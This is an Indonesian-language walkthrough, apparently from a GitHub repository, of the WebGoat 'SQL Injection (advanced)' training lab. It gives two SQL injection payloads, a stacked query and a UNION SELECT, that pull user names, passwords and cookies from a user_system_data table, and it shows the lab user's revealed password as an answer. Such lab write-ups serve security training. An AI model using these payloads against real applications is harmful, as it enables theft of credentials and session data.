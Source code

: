 # SQL Injection (advanced)
## Try It! Pulling data from other tables
- Masukkan query injection sebagai berikut lalu tekan tombol **Get Account Info**
```sh
'; select * from user_system_data; --
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%201.JPG)

- Setelah data tampil, kita dapat menemukan password user dave

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%202.JPG)

- Masukkan password user dave ke field Password dan tekan tombol **Check Password**
```sh
passW0rD
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%203.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%204.JPG)

- Selain query injection diatas, kita juga bisa memasukkan query sebagai berikut
```sh
' union select userid, user_name, password, cookie, null as c1, null as c2, null as c3 from user_system_data; --
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%205.JPG)
